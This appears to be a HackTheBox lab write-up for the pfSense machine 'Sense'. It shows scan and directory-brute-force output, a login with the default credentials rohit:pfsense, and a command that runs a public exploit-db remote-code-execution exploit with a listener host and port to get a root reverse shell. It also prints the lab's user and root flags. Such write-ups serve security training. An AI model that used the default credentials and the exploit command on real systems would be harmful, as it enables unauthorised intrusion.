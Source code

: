 ```yaml
---
layout: post
title: "Sense Writeup - HackTheBox"
category: HackTheBox
---
```


# HTB lab Machine - Sense

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.154.28 folder that I have attached to this post.

## Enumeration summary

![image-20210530121147979.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210530121147979.png)

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.154.28/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

```

```
Summary   : Cookies[PHPSESSID,cookie_test], HttpOnly[PHPSESSID], JQuery, Script[text/javascript], PasswordField[passwordfld], X-Frame-Options[SAMEORIGIN], lighttpd[1.4.35], HTTPServer[lighttpd/1.4.35]
```

```
[-] [10.129.154.28 tcp/443/nmap-http] | http-enum:
[-] [10.129.154.28 tcp/443/nmap-http] |   /javascript/sorttable.js: Secunia NSI
[-] [10.129.154.28 tcp/443/nmap-http] |   /changelog.txt: Interesting, a changelog.
[-] [10.129.154.28 tcp/443/nmap-http] |_  /tree/: Potentially interesting folder

```

```
[-] [10.129.154.28 tcp/443/nmap-http] | http-sitemap-generator:
[-] [10.129.154.28 tcp/443/nmap-http] |   Directory structure:
[-] [10.129.154.28 tcp/443/nmap-http] |     /
[-] [10.129.154.28 tcp/443/nmap-http] |       Other: 1; php: 1
[-] [10.129.154.28 tcp/443/nmap-http] |     /csrf/
[-] [10.129.154.28 tcp/443/nmap-http] |       js: 1
[-] [10.129.154.28 tcp/443/nmap-http] |     /javascript/
[-] [10.129.154.28 tcp/443/nmap-http] |       js: 1
[-] [10.129.154.28 tcp/443/nmap-http] |     /themes/pfsense_ng/
[-] [10.129.154.28 tcp/443/nmap-http] |       css: 1
[-] [10.129.154.28 tcp/443/nmap-http] |     /themes/pfsense_ng/javascript/
[-] [10.129.154.28 tcp/443/nmap-http] |       js: 1
[-] [10.129.154.28 tcp/443/nmap-http] |   Longest directory structure:
[-] [10.129.154.28 tcp/443/nmap-http] |     Depth: 3
[-] [10.129.154.28 tcp/443/nmap-http] |     Dir: /themes/pfsense_ng/javascript/
[-] [10.129.154.28 tcp/443/nmap-http] |   Total files found (by extension):
[-] [10.129.154.28 tcp/443/nmap-http] |_    Other: 1; css: 1; js: 3; php: 1

```

```
+ Multiple index files found: /index.html, /index.php
```

![image-20210530122423857.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210530122423857.png)

![image-20210530122507274.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210530122507274.png)

```
[2Kwizard.php              [Status: 200, Size: 6691, Words: 907, Lines: 174]

[2Kxmlrpc.php              [Status: 200, Size: 384, Words: 78, Lines: 17]

[2Kxmlrpc.php              [Status: 200, Size: 384, Words: 78, Lines: 17]

[2Klicense.php             [Status: 200, Size: 6692, Words: 907, Lines: 174]

[2Kpkg.php                 [Status: 200, Size: 6688, Words: 907, Lines: 174]

[2Kstatus.php              [Status: 200, Size: 6691, Words: 907, Lines: 174]

[2Kstats.php               [Status: 200, Size: 6690, Words: 907, Lines: 174]

[2Ksystem.php              [Status: 200, Size: 6691, Words: 907, Lines: 174]

[2Kfavicon.ico             [Status: 200, Size: 1406, Words: 3, Lines: 7]

[2Kgraph.php               [Status: 200, Size: 6690, Words: 907, Lines: 174]

[2Khelp.php                [Status: 200, Size: 6689, Words: 907, Lines: 174]

[2Kedit.php                [Status: 200, Size: 6689, Words: 907, Lines: 174]

[2Kexec.php                [Status: 200, Size: 6689, Words: 907, Lines: 174]
```

```
Ă˘âĹĂ˘ââŹĂ˘ââŹ(kaliĂŁâ°Âżkali)-[~]
Ă˘ââĂ˘ââŹ$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://sense.htb -x php,txt,cnf,conf

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 301,302,307,200,204
[+] Extensions   : .php,.txt,.cnf,.conf
=====================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 200)
/system-users.txt (Status: 200)
```

## Exploitation

![image-20210530154859276.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210530154859276.png)

Okay then, this must be easy. Lets try some default passwords. rohit:pfsense worked:

![image-20210530154943323.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210530154943323.png)

The PFSense software provides the following infomation:

```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16

Obtaining update status ...
```

Found this exploit: https://www.exploit-db.com/exploits/43560

Lets try it:

```
Ă˘âĹĂ˘ââŹĂ˘ââŹ(kaliĂŁâ°Âżkali)-[~/Desktop/DownloadedScripts]
Ă˘ââĂ˘ââŹ$ python3 exp.py --rhost 10.129.132.225 --lhost 10.10.14.31 --lport 4444 --username rohit --password pfsense
/home/kali/.local/lib/python3.9/site-packages/requests/packages/urllib3/connectionpool.py:847: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  warnings.warn((
CSRF token obtained
/home/kali/.local/lib/python3.9/site-packages/requests/packages/urllib3/connectionpool.py:847: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  warnings.warn((
/home/kali/.local/lib/python3.9/site-packages/requests/packages/urllib3/connectionpool.py:847: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  warnings.warn((
/home/kali/.local/lib/python3.9/site-packages/requests/packages/urllib3/connectionpool.py:847: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  warnings.warn((
Running exploit...
/home/kali/.local/lib/python3.9/site-packages/requests/packages/urllib3/connectionpool.py:847: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  warnings.warn((
Exploit completed

```

In your listener:

```
# cat user.txt
8721327cc232073b40d27d9c17e7348b
# cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
# whoami && id
root
uid=0(root) gid=0(wheel) groups=0(wheel)
#

```

Well. root and done.

## Final thoughts

A nice 10 pointer. Initial foothold was tricky since the txt file did not appear at first sight.

